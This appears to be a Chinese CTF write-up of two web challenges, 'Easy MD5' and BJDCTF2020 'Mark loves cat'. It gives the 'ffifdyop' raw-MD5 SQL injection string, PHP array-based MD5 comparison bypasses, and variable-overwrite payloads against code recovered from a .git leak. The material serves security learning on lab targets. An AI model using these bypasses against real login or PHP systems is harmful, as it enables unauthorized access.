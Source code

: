 # Easy MD5

打开题目就一输入框把我整懵了，输入了没反应，然后目录扫描无果，查看网页源代码没发现敏感文件

然后在响应头发现

> Hint: select * from 'admin' where password=md5($pass,true)

输入`ffifdyop`

这样拼接以后就是`"select * from 'admin' where password='' or'6蒥欓!r,b' "`

or后面的句子第一个字母是非0打头的数字符，比如为 ‘ 1abc ’ 或者 ‘ -1bde ’都会被认为是true

之后进入下一个页面，查看网页源代码得到关键代码，直接数组绕过

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

```
http://ec1c5bb6-221c-4577-8d10-0bc84cb670d0.node3.buuoj.cn/levels91.php?a[]=1&b[]=2
```

之后post

```
param1[]=1&param2[]=2
```

## [BJDCTF2020]Mark loves cat

首先查看网页源代码在网页最下方发现了dog，尝试以get请求拼接，无果，额只能目录扫描看看有啥可利用的了

发现.git源码泄露，使用GitHack获取关键源码

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';
//变量覆盖
foreach($_POST as $x => $y){
    $$x = $y;
}
//变量覆盖
foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET传入的参数当中没有flag则进入循环
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

payload1：

```
flag2=11&yds=flag
```

payload2：和上面是等价的

```
yds=flag
```

在页面最下方获取到flag



# [BJDCTF2020]The mystery of ip



# 仓库地址

https://github.com/BjdsecCA/BJDCTF2020仓库地址，有空复现以下题目
